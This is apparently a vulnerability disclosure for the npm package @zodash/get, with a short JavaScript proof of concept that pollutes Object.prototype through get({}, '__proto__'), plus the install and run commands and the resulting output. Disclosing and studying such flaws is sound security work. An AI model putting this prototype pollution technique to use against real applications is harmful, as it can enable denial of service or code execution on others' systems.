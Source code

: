 # Description

`@zodash/get` vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { get } = require('@zodash/get')

console.log(`Before: ${{}.polluted}`)
get({}, '__proto__').polluted = true
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @zodash/get # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

